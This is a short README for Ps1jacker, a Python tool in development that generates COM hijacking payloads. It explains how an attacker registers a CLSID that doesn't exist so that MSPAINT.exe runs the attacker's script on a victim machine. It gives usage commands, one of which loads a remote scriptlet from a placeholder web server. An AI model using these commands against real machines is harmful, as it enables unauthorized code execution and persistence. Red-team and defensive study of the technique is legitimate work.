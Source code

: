 # Ps1jacker
Ps1jacker is a tool for generating COM Hijacking payload.
COM Hijacking is a method of getting Remote Code Execution by using legitimiate Windows process'. For example, when you start MSPAINT.exe it will trigger several registry keys / directories in your registry. These are specified by CLSID (ClassID). Some of these CLSID do not even exist on your machine, which opens up an opportunity for attacker. The attacker will find that unique non-existing CLSID and hijack it, by adding it to Registry and trigger his/her own script once that CLSID is called by MSPAINT.exe. 

## WARNING: This tool is still in heavy development - only one functionality is currently in testing!

### TEST 1:
This will generate a default payload that will open Calculator instead of MSPAINT. Be sure to have calc.SCT file from Examples folder within C:\tools\COM Testing\ on victim machine. Otherwise this method wont work.

`python ./ps1jacker.py -hd`

### TEST 2:
Hijacking MSPAINT.exe by specifing custom parameters.

`python ./ps1jacker.py -p "http://<web_server_ip>/calc.sct" -ch {926749FA-2615-4987-8845-C33E65F2B957} -cf {00000001-0001-0001-0001-0000DEADBEEF}`


